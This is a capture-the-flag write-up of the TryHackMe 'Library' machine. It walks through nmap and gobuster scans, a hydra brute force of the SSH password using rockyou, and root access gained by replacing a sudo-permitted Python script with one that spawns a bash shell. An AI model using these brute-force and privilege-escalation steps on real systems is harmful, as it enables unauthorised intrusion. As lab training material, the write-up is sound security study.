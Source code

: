 ```yaml
---
published: true
image: /assets/img/logo/library.png
headline: Library is the next easy machine from tryhackme
categories:
  - Machine-Writeup
  - Tryhackme
---
```

![Desktop View](/assets/img/sample/Library/5.png)

Hello guys, This is the next easy machine from [Tryhackme](https://tryhackme.com/), Name is [Library](https://tryhackme.com/room/bsidesgtlibrary)

# [](#header-2)Nmap Scan

```
# Nmap 7.80 scan initiated Mon Jun 29 03:11:14 2020 as: nmap -sC -sV -oN nmap 10.10.147.65
Nmap scan report for 10.10.196.76
Host is up (0.48s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 29 03:11:44 2020 -- 1 IP address (1 host up) scanned in 30.94 seconds

```

Only port 22 and port 80 ,Let's go into browser 

# [](#header-2)Web 

![Desktop View](/assets/img/sample/Library/1.png)

# [](#header-2)Directory Scan

```
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library# gobuster dir -u http://10.10.147.65 -w /opt/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.147.65
[+] Threads:        10
[+] Wordlist:       /opt/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/29 03:40:27 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/images (Status: 301)
/index.html (Status: 200)
[ERROR] 2020/06/29 03:42:28 [!] Get http://10.10.147.65/pop: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2020/06/29 03:43:37 Finished
===============================================================
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library#
```

I checked in `robots.txt`

![Desktop View](/assets/img/sample/Library/2.png)

So may be `rockyou` is the hint for us , after some enumerating in website

I found the author name is `meliodas`

![Desktop View](/assets/img/sample/Library/3.png)

So I start cracked ssh password with `rockyou.txt`

CMD: `hydra -l meliodas -P /opt/rockyou.txt  10.10.147.65 ssh`

```
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library# hydra -l meliodas -P /opt/rockyou.txt  10.10.147.65 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-29 03:16:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.147.65:22/
[STATUS] 105.00 tries/min, 105 tries in 00:01h, 14344298 to do in 2276:53h, 16 active
[22][ssh] host: 10.10.147.65   login: meliodas   password: i******1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-29 03:18:36
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library#
```

`[22][ssh] host: 10.10.147.65   login: meliodas   password: i******1`

After some times , I got ssh's password `i*******1`. Let's dig in :)

```
root@cyb3rhoL1c:~/Desktop/TryHackMe/Library# ssh meliodas@10.10.147.65
The authenticity of host '10.10.147.65 (10.10.147.65)' can't be established.
ECDSA key fingerprint is SHA256:sKxkgmnt79RkNN7Tn25FLA0EHcu3yil858DSdzrX4Dc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.147.65' (ECDSA) to the list of known hosts.
meliodas@10.10.147.65's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Aug 24 14:51:01 2019 from 192.168.15.118
meliodas@ubuntu:~$ 
```

```
meliodas@ubuntu:~$ ls
bak.py  user.txt
meliodas@ubuntu:~$ cat user.txt
6d488********************35f4ec
meliodas@ubuntu:~$
```

Now we got user flag :). Type `sudo -l`

```
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
meliodas@ubuntu:~$
```

You will see bak.py can run as root, let's check it

```
meliodas@ubuntu:~$ cat bak.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
meliodas@ubuntu:~$ 
```
Codes are not intersting too much, let's run it

```
meliodas@ubuntu:~$ sudo python bak.py 
[sudo] password for meliodas: 
Sorry, user meliodas is not allowed to execute '/usr/bin/python bak.py' as root on ubuntu.
meliodas@ubuntu:~$
```

It's said meliodas not allowed to execute as root, But you can execute like this

`sudo python /home/meliodas/bak.py`

```
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py 
meliodas@ubuntu:~$
```
So I removed this file and create a new file with the same name like this

`echo 'import pty;pty.spawn("/bin/bash")' > bak.py`

And then run it again 

```
meliodas@ubuntu:~$ rm bak.py
rm: remove write-protected regular file 'bak.py'? yes
meliodas@ubuntu:~$ echo 'import pty;pty.spawn("/bin/bash")' > bak.py
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py 
root@ubuntu:~# ls
bak.py  user.txt
root@ubuntu:~# cd /root
root@ubuntu:/root# cat root.txt
e8c8*******************0488c617
root@ubuntu:/root#
```

Now we got root flag  and owned machine :) 

thanks for reading 

![Desktop View](/assets/img/sample/Library/4.png)

[Enjoy :)]()

<script src="https://tryhackme.com/badge/97569"></script>
